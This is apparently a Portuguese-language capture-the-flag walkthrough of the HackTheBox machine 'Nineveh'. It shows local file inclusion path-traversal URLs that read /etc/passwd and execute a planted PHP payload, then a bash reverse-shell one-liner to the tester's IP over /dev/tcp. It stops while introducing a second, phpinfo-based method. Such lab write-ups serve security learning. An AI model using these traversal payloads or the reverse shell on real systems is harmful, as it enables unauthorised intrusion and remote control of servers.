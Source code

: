 Login page já conseguimos entrar, improve your db interface também, pelo phpLiteAdmin v1.9

Hummm, secret folder... agora que vamos ver o que ele quer dizer com isso

Tentamos vários diferentes tipos de LFI, até conseguir um que desse certo...

```
http://10.10.10.43/department/manage.php?notes=files/ninevehNotes.txt --> Essa página que está acima
http://10.10.10.43/department/manage.php?notes=/etc/passwd --> No note is selected
http://10.10.10.43/department/manage.php?notes=/../../../etc/passwd --> No note is selected
http://10.10.10.43/department/manage.php?notes=/ninevehNotes --> failed to open stream: No such file or directory in /var/www/html/department/manage.php
http://10.10.10.43/department/manage.php?notes=/ninevehNotes/../../etc/passwd --> Conteúdo do passwd
```

Pronto, conseguimos encontrar o ponto de LFI que da certo nessa máquina, como sabemos que o payload está em /var/tmp/nineveh.php, vamos executar!

> http://10.10.10.43/department/manage.php?notes=/ninevehNotes/../../var/tmp/nineveh.php&cmd=id

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-nineveh/N_rev.png)

Temos RCE!

> Pegamos uma reverse shell

Ligamos o nc na nossa Kali e recebemos uma revserse shell do servidor

É importante rodar o & como URLEncode, pq senão a aplicação vai pensar que é um novo parâmetro

> bash -c 'bash -i >%26 /dev/tcp/10.10.16.119/443 0>%261'

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-nineveh/N_shell.png)

# Exploração phpinfo (Modo 2º de pegar shell)

Antes de iniciar a escalação de privilégio, é interessante nós também explorarmos outra maneira de se conseguir shell na máquina, pois quanto mais a gente praticar, melhor ficamos

Agora a exploração será pelo phpinfo

Não sei se você se lembra, mas lá atrás tinha um phpinfo (info.php) na página http, então, ele parece extremamente inofensivo e nada de mais. Mase se olharmos mais a fundo podemos explorar ele

Vamos realizar o que está descrito por aqui. (Essa ideia eu peguei do blog do `0xdf`, reproduzi o que ele fez nessa máquina juntamente com o que foi feito na máquina Poison - HackTheBox)

> https://insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf

> PHP tem que estar configurado com `file_uploads = ON`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-nineveh/N_info.png)

Isso quer dizer que qualquer requisição PHP vai aceitar que seja upado arquivo, que serão salvos em uma localização temporária do servidor PHP até que a requisição seja completada. Mas pô, como vou saber onde vai ser guardada? O php info nos dá, fica tranquilo.
